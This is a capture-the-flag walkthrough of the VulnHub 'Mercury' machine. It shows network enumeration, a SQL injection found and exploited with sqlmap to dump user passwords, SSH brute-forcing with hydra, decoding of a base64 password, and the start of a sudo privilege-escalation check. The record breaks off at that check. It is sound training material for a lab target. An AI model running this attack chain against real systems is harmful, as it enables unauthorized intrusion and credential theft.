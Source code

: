 # Mercury

### 1.Get VM IP

```bash
root@kali:arp-scan -I eth0 -l                           
Interface: eth0, type: EN10MB, MAC: 08:00:27:c4:58:52, IPv4: 192.168.56.140
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:40	(Unknown: locally administered)
192.168.56.100	08:00:27:74:2d:92	PCS Systemtechnik GmbH
192.168.56.139	08:00:27:63:63:96	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.139`, let's enumerate it.


### 2.Enumeration

```bash
root@kali: nmap -v -sC -sV 192.168.56.139
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

let's check the web page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e2898a20-816f-48cd-bd7c-10524855fb58)

there is nothing interesting, but if you navigate to a random page like `/test`, you will see an error page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f0a68882-ead8-4bd5-8324-0f2ac7757258)

on this page, you can see an extra directory `mercuryfacts/` that we are allowed to visit, so let's go there :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9851de80-4203-40cf-b53a-e36d15db1380)

click on `Load a fact` and you will see the following page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/491a854f-ad01-414c-8b29-0c0dffaf7e8f)

if you play with the last digit and make it to `2` or `3` or ... you will see new messages :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b95d504a-3591-4645-9716-c919779e3fbc)

this ca be a sign that these pages are getting called from the database by the number of the fact so adding a single quote :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6f5115c8-e4a6-4259-992c-4ab5ce76391b)


yes there is a SQL injection here, the rest is easy as we put the URL into sqlmap :

```bash
root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch --dbs

[07:28:50] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury


root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch -D mercury --tables
[07:29:31] [INFO] fetching tables for database: 'mercury'
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+


root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch -D mercury -T users --dump
[07:30:03] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

### 3.Gaining Shell

Now that we have usernames and passwords we need to brute-force the SSH service, so save all the usernames into a file called `username.txt`

and all the passwords into a file called `password.txt` and use `hydra` to check the credentials :

```bash
root@kali: hydra -L users.txt -P passwords.txt -e nsr 192.168.56.139 ssh -t 10
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b1f06b18-dc40-4101-b08b-8dcfbab6872b)

now we can connect to victim using `webmaster:mercuryisthesizeof0.056Earths`

### 4.Privilege Escalation (To linuxmaster)

In home directory of user `webmaster` there is another directory called `mercury_proj` and a file `note.txt` :

```bash
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

here is the password for user `linuxmaster` :

```bash
webmaster@mercury:~$ echo 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' | base64 -d
mercurymeandiameteris4880km
```

### 5.Privilege Escalation (To root)

We connect to user `linuxmaster:mercurymeandiameteris4880km` :

```bash
webmaster@mercury:~$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster$
```

check sudo permissions :

```bash
linuxmaster@mercury:/home/webmaster$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```















